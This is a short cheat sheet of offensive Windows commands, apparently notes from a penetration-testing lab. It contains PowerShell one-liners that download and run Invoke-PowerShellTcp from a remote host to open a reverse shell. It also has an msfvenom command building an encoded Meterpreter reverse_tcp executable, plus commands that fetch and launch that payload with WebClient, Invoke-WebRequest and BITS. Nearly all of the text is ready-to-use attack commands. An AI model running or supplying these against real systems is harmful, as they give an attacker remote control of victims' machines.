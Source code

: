 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 
 ## create Payload
 
 msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.249.117 LPORT=8081 -f exe -o learn.exe
 
 ## call payload
 
 powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://10.8.249.117:8081/learn3.exe','learn3.exe')"
 
 invoke-webrequest -Uri "http://10.8.249.117:8081/learn.exe"
 

Start-BitsTransfer -Source "http://10.8.249.117:8081/learn.exe" -d "c:\users"

run payload 
powershell -c Start-Process "learn3.exe"

 
 